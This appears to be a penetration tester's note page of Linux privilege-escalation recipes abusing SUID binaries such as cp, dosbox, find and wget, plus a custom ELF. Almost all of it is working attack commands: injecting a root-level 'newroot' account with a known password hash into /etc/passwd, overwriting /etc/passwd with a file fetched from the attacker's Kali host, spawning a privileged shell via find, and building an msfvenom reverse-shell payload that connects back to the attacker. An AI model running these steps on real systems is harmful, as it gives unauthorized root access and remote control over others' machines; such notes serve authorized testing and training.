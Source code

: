 ```yaml
---
category: Uncategorized
tags: []
---
```

#### cp

Target:
```bash - target
cat /etc/passwd > passwd.orig
```

Kali:
```bash - kali
openssl passwd password
```

Target:
```bash - target
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd.orig
```

```bash - target
cp passwd.orig /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### dosbox
First, you need to ssh into the target with -X flag:
```bash - kali
ssh -X $USER@$TARGET 
```

```bash - target
dosbox
```

![[Pasted image 20220325160823.png]]

---

If the above method does not work, try:

[[0._Port Forwarding Examples#VNC to DosBox]]


---

On the target machine:
```bash - target
echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' > fkpasswd
```

Now in the DOS box:
```bash - target
mount d /
```

```bash - target
D:
```

```bash - target
type D:\HOME\$USER\FKPASSWD >> D:\ETC\PASSWD
```

Back in target:
```bash - target
su newroot
```

```bash - target
password
```

#### find
```bash - target
/usr/bin/find . -exec /bin/sh -p \; -quit
```

#### wget

```bash - kali
openssl passwd password
```

```bash - kali
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd
```

```bash - target
wget http://$KALI/passwd -O /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### elf file

![[Pasted image 20220406205712.png]]

```bash - target
strings uploadtosecure
```

   
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=80 -f elf > scp.elf
```

![[rlwrap]]

Transfer to victim

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
mv scp.elf scp
```

```bash - target
chmod 777 scp
```

```bash - target
./uploadtosecure
```


